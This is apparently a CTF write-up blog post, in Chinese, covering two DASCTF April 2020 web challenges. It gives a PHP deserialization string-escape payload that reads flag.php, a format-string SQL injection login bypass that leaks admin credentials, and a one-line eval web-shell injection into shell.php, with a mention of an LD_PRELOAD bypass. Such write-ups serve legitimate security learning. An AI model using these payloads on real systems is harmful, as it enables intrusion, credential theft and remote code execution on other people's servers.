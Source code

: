 ```yaml
---
layout: post
title: DASCTF April Web Writeup
data: 2020-04-25
categories: Writeups
tags: 
 - CTF
 - Writeup
description: 
excerpt_separator: ""
---
```


# Ezunserialize

## 题目描述

直接给了源码：

{% highlight php linenos %}
<?php
show_source("index.php");
function write($data) {
    return str_replace(chr(0) . '*' . chr(0), '\0\0\0', $data);
}

function read($data) {
    return str_replace('\0\0\0', chr(0) . '*' . chr(0), $data);
}

class A{
    public $username;
    public $password;
    function __construct($a, $b){
        $this->username = $a;
        $this->password = $b;
    }
}

class B{
    public $b = 'gqy';
    function __destruct(){
        $c = 'a'.$this->b;
        echo $c;
    }
}

class C{
    public $c;
    function __toString(){
        //flag.php
        echo file_get_contents($this->c);
        return 'nice';
    }
}

$a = new A($_GET['a'],$_GET['b']);
//省略了存储序列化数据的过程,下面是取出来并反序列化的操作
$b = unserialize(read(write(serialize($a))));
{% endhighlight%}

## 解题思路

思路很明确由B类到C类读取flag.php，不过看起来只能传入给A类的字符串，需要序列化逃逸。

read()函数会将`'\0\0\0'`替换为`"\0*\0"`，注意一下，前者由单引号围绕，不表示转义，即包含6个字符，而后者由双引号包围，转义为空白符，即包含三个字符。

先构造理想的序列化字符串：

```php
<?php
$c = new C();
$b = new B();

$c->c = "flag.php";
$b->b = $c;
echo serialize(new A("foo", $b));
?>
```

结果：

```php
O:1:"A":2:{s:8:"username";s:3:"foo";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}
```

需要吞掉24个字符，于是提交的序列化字符串为：

{% highlight php linenos %}
O:1:"A":2:{s:8:"username";s:48:"\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0";s:8:"password";s:74:";";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}";}
{% endhighlight%}

Payload：

```
?a=%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0
&b=%3B%22%3Bs%3A8%3A%22password%22%3BO%3A1%3A%22B%22%3A1%3A%7Bs%3A1%3A%22b%22%3BO%3A1%3A%22C%22%3A1%3A%7Bs%3A1%3A%22c%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D%7D
```

## 备注

1. 这道题就是完全没有注意到单引号，一直在想属性的访问控制什么的。

# babytricks

## 题目描述

一个登录框，源码中有提示

```html
<!-- tips:select * from user where user='$user' and passwd='%s'-->
```

## 解题思路

很明显的格式化字符串，Payload：

```
POST：user=admin%1$c
passwd=39
```

有个跳转，输出了一个数组：

```
Array(
    [0] => 1
    [id] => 1
    [1] => admin
    [user] => admin
    [2] => GoODLUcKcTFer202OHAckFuN
    [passwd] => GoODLUcKcTFer202OHAckFuN
)
```

应该是账号密码了，然后说前台什么都没有了，那就去后台，扫一下目录，可以看到源码：

```php
Your sandbox: ./shells/LYmjizTyfRfRj1bz/ set your shell
<?php
error_reporting(0);
session_save_path('session');
session_start();
require_once './init.php';
if($_SESSION['login']!=1){
    die("<script>window.location.href='./index.php'</script>");
}
if($_GET['shell']){
    $shell= addslashes($_GET['shell']);
    $file = file_get_contents('./shell.php');
    $file = preg_replace("/\\\$shell = '.*';/s", "\$shell = '{$shell}';", $file);
    file_put_contents('./shell.php', $file);
}else{
    echo "set your shell"."<br>";
    chdir("/");
    highlight_file(dirname(__FILE__)."/admin.php");
}
?>
```

很简单：

```
?shell=;eval($_POST['cmd']);
```

然后发现执行系统命令的很多函数被禁用了，结合题目给了so文件，说明要LD_PRELOAD。

## 备注

1. LD_PRELOAD这里要深入一下了。